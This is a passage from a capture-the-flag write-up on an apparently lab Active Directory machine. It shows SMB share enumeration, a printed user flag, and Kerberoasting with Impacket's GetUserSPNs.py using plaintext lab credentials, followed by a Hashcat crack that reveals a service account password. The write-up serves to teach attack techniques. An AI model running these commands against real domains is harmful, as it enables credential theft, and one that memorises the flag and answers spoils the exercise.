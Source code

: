 After successful login, I listed available shares:
<img width="969" height="312" alt="image" src="https://github.com/user-attachments/assets/f13b8f8a-7753-4486-a282-b605c4197995" />

I mounted the `Users` share and listed its contents:

<img width="616" height="291" alt="image" src="https://github.com/user-attachments/assets/ad779cc5-65a3-44ce-9adf-92a5b093da1e" />


## Navigating to the User Directory
<img width="724" height="742" alt="image" src="https://github.com/user-attachments/assets/c8b0d213-e04b-48f4-af8b-15e9a26a2fca" />

## User Flag
The user flag is typically located in the Desktop directory. I navigated there to retrieve it:
```
# cd Desktop
# ls
drw-rw-rw-          0  Fri Jul 25 23:21:44 2025 .
drw-rw-rw-          0  Mon Jun 17 22:54:32 2024 ..
-rw-rw-rw-        282  Mon Jun 17 22:54:32 2024 desktop.ini
-rw-rw-rw-         33  Fri Jul 25 23:21:44 2025 user.txt
# cat user.txt
28189316c25dd3c0ad56d44d000d62a8
```

## Enumerating SPNs for Kerberoasting

SPNs identify services in Active Directory. Misconfigured service accounts let us request Kerberos tickets and extract offline-crackable hashes — a technique called **Kerberoasting**.

I ran **Impacket’s GetUserSPNs.py** with my valid credentials:

```bash
python3 examples/GetUserSPNs.py SOUPEDECODE.LOCAL/ybob317:ybob317 -dc-ip 10.201.1.205 -request -output hash.txt
```

## Cracking Kerberoasted Hashes

With the SPN hashes saved in `hash.txt`, I moved on to cracking them using **Hashcat** with the `rockyou.txt` wordlist:

```bash
hashcat hash.txt wordlists/rockyou.txt --show
```

Hashcat auto-detected the format as **Kerberos 5 TGS-REP (mode 13100)** and successfully cracked one of the hashes:

```
$krb5tgs$23$*file_svc$SOUPEDECODE.LOCAL/file_svc*...
Password123!!
```
